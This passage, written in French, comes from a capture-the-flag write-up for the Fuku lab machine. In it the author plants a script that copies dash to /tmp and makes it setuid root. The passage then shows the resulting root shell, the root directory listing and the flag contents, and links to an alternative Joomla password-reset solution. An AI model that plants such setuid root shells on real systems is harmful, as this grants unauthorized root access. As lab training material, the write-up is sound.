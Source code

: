 Voici les commandes que j'ai placé :

```bash
#!/bin/bash
cp /bin/dash /tmp/devloop_was_here
chmod 4755 /tmp/devloop_was_here
```

Et après quelques minutes :

```bash
www-data@Fuku:/var/www/html$ ls -al /tmp/devloop_was_here 
-rwsr-xr-x 1 root root 110K Jan  4 08:31 /tmp/devloop_was_here
www-data@Fuku:/var/www/html$ /tmp/devloop_was_here
# cd /root
# ls
19700101      chkrootkit-0.49  flag.txt  g++-4.9  gcc-4.9  gcc-ar-4.9  gcc-nm-4.9  gcc-ranlib-4.9  ifconfig  mlocate    python     uname  whoami
change_ip.sh  cpp-4.9          fuku      gcc      gcc-ar   gcc-nm      gcc-ranlib  id              locate    portspoof  python2.7  which
# cat flag.txt
Yep, this is a flag. It's worth over 9000 Internet points!
Random keyboard smash: lkhI6u%RdFEtDjJKIuuiI7i&*iuGf)8$d4gfh%4
```

On voit ici les vrais binaires que l'auteur du CTF a remplacé.

## Alternative ending

J'ai vu que d'autres participants ont utilisé `Joomscan` et qu'il y avait une faille de reset de password sans vérifications. Voir par exemple cette solution :[BNE0x02 - Fuku Writeup](https://gknsb.blogspot.com/2016/05/bne0x02-fuku-writeup.html).

*Publié le 4 janvier 2023*
